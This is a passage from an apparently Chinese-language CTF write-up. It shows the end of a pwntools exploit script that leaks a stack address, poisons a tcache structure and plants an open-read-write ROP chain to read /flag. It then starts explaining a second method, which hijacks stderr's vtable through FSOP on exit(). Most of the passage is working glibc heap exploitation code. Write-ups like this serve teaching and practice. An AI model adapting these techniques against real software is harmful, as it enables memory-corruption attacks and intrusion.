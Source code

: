 ```
    pop_rdx_ret = libc_base + libc.search(asm("pop rdx ; ret")).__next__()
    pop_rdx_pop_rbx_ret = libc_base + libc.search(asm('pop rdx ; pop rbx ; ret')).__next__()
    ret = libc_base + libc.search(asm('ret')).__next__()

    orw = b''
    orw += b'arttnba3' * 3 + p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['write'])
    log.success("construction complete")

    new(0x10) 
    edit(3, b'arttnba3' * 2)
    dump(3)
    __environ = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
    log.success('stack addr leak: ' + hex(__environ))

    log.info("start sending the orw rop chain...")

    edit(2, (b"\x00\x00" * 15 + b'\x01\x00').ljust(128, b'\x00') + p64(0) * 15 + p64(__environ - 0x168)) 
    new(0x100) 

    edit(4, orw)
    sleep(1)
    p.sendline(b'/flag\x00')

    p.recvuntil(b"Done!\n")
    log.success("flag received: ")
    print(p.recvuntil(b'}').decode())
    p.recv()
    p.interactive()

if __name__ == '__main__':
    exp() 
```

### 解法二：通过 exit() 进行FSOP构造ROP进行ORW

考虑到`exit()`函数会调用`_IO_flush_all_lockp ()`函数，那么我们便可以劫持`_IO_2_1_stderr_`进行FSOP，控制程序执行流程

由于vtable表合法性检测的存在，因此我们可以把最后一次malloc的机会用掉，以劫持vtable表

笔者测试在这里如果选择直接改`_IO_file_jumps`表中的`__overflow`会触发SIGSEGV，因此考虑劫持一个合法的vtable表位，同时将stderr的vtable表劫持为该位置，接下来就可以通过`__overflow`控制程序执行流

> 注：其实只需要vtable表位置合法即可
